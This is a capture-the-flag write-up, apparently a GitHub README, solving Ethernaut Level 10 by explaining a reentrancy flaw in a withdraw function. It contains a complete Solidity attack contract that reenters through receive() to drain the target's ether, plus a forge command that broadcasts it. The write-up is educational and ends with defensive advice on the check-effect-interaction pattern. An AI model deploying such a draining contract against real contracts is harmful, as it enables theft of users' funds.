


<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 10 - Reentrancy</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 10 - Reentrancy](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-10-reentrancy)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Goals



## The hack

In this level, we have to drain all the funds from the contract. We have to be familiar with reentrancy attacks, and that is what this very simple example is for.

A reentrancy attack can happen after an external call to another contract. For instance, upon receiving ether, the contract can respond to the transfer. That is when we can "reenter" the contract. And that is why the "Check-Effect-Interaction" pattern or CEI matters.

In this case, the `msg.sender`'s balance is updated AFTER the external call, which leaves the door open for a reentrancy attack.

```javascript
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```

How does the attack work?

Since the balance is updated after the external call, we can call the `withdraw` function, and reenter the contract via a `fallback()` function upon receiving ether. At this point, despite having already withdrawn our balance, we can withdraw again since the state hasn't been updated yet!

```javascript
// This will always be true
balances[msg.sender] >= _amount;
```

We can repeat this process until the contract is drained. The withdraw function will finally finish its execution and update our balance... a little too late.

Hence the CEI:

- <b>Check: Make sure all your inputs and conditions are correct.
- Effect: Update all states.
- Interaction: Interact with other contracts.</b>

## Solution

Let's take advantage of the `withdraw` function to reenter the contract and drain it since it lacks a proper CEI pattern.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
}

contract Reentered {
    address private immutable target;
    uint256 donation = 0.001 ether;

    constructor(address _target) public {
        target = _target;
    }

    receive() external payable {
        if (target.balance >= donation) {
            IReentrance(target).withdraw(donation);
        }
    }

    function attack() public payable {
        // 1. Donate so you have some funds to withdraw
        IReentrance(target).donate{value: donation}(address(this));
        // 2. Call the withdraw function to start the reentrancy
        IReentrance(target).withdraw(donation);
        // 3. The contract has been drained successfully
        require(address(target).balance == 0, "Reentrancy failed!");
        // 4. Withdraw the funds from the attacker contract
        withdraw();
    }

    function withdraw() public {
        uint256 bal = address(this).balance;
        (bool success, ) = msg.sender.call{value: bal}("");
        require(success, "Transfer Failed");
    }
}
```

Then, you can use forge scripts to deploy this contract and call the `attack` function:

```bash
forge script script/10_Reentrancy.s.sol:PoC --rpc-url sepolia --broadcast --watch
```

> Note: Since the contract starts with `0.001 ether`, leaving its balance at 0 is fairly simple. For a more "realistic" approach, you would have to improve the calculation's method to drain the contract's balance entirely.

## Takeaway

- <b>CHECK-EFFECT-INTERACTION pattern</b> must be systematically followed.
- Use a reentrancy guard if in doubt. Better safe than sorry.

## Reference

- The DAO hack: https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942
- Advanced reentrancy on Curve pools: https://hackmd.io/@vyperlang/HJUgNMhs2

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
